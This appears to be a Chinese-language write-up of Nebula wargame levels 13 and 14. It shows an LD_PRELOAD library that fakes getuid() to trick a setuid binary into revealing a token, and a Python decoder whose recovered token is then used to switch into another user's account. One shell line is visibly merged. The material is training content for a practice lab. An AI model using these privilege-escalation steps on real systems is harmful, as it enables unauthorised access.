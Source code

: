 这题的思路就是劫持getuid函数 :
```
myuid.c
#include <sys/types.h>
uid_t getuid(void) {
        //system("getflag > /tmp/getflag13"); getshell失败
        return 1000;
}
```

2: 编译动态链接库
```
level13@nebula:/tmp$ gcc -shared myuid.c -o myuid.so
level13@nebula:/tLD_PRELOAD=/tmp/myuid.so
level13@nebula:/tmp$ export LD_PRELOAD
level13@nebula:/tmp$ cp /home/flag13/flag13 ./
level13@nebula:/tmp$ ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
```

flag13和myuid.so的ruid要一样，所以把flag13 copy过来。

# Level14

给一个加密程序，然后解密token文件。。。。这是小学的找规律？
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

cipher = "857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW."
plain = ""
for x in range(len(cipher)):
	plain += chr(ord(cipher[x]) - x)
	
print plain
```

得到token后
```
level14@nebula:/home/flag14$ su flag14
Password: 
sh-4.2$ getflag
You have successfully executed getflag on a target account
sh-4.2$ whoami
flag14
```

# Level15

暂无。。。前置技能没点够，LL的wp看不懂

# Level16
